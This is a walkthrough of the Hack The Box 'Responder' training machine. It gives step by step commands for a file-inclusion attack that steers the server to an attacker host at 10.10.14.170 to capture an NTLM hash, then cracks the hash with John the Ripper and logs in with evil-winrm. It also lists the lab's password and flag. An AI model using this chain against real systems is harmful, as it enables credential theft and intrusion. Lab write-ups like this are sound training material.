


# Responder
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.

## Task Breakdown
**1. When visiting the web service using the IP address, what is the domain that we are being redirected to?**
- When you access the IP address via a web browser, it redirects to `unika.htb`, but you may see a **Server not found** error

> **Answer:** unika.htb
- To resolve this, add the IP address to your `/etc/hosts` file:. Edit this file using `sudo nano /etc/hosts`.

- The webpage should now display like this:

**2. Which scripting language is being used on the server to generate webpages?**
- Scan the ports using `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`

> **Answer:** PHP

**3. What is the name of the URL parameter which is used to load different language versions of the webpage?**
- When we change language from En to FR, the URL also changes from `http://unika.htb/index.php` to `http://unika.htb/index.php?page=french.html`

> **Answer:** page

**4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
- Exploiting an LFI vulnerability is possible with a parameter like `../../../../../../../../windows/system32/drivers/etc/hosts`
The `../` enables directory traversal to access files outside the web root

> **Answer:** ../../../../../../../../windows/system32/drivers/etc/hosts

**5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
 
> **Answer:** //10.10.14.6/somefile

**6. What does NTLM stand for?**
> **Answer:** New Technology LAN Manager

**7. Which flag do we use in the Responder utility to specify the network interface?**
- Run `responder -h` to see available options.

> **Answer:** -I
- Run `responder -I tun0` as `root` to to start Responder on a specific interface.
- If you encounter an error like **Error starting TCP server on port 80, check permissions or other servers running.**, edit '/etc/responder/Responder.conf`  and change HTTPS from ON to OFF.

**8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**
> **Answer:** John The Ripper
- You can use this tool on Linux using command `john`.

**9. What is the password for the administrator user?**
- Access `http://unika.htb/index.php?page=//10.10.14.170/somefile` and capture NTLM data with Responder, which includes the client’s IP, username, and password hash.

- Unzip the Rock You wordlist using `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`

- Save hash string to a file by `echo '[hash-string]' > [file-name]`

- Now use John The Rippter and Rock You wordlist to find the password by `john -w='[wordlist-path]' [hash-file]`

> **Answer:** badminton

**10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**
- You can check the results from the nmap scan.
> **Answer:** 5985

## Submit the flag
- Use `evil-winrm` to remotely access the machine with `evil-winrm -i [IP-Address] -u Administrator -p badminton`. Once connected, you can explore this PC by powershell.

- Wandering around and you will find the flag.

- **My flag:** ea81b7afddd03efaa0945333ed147fac

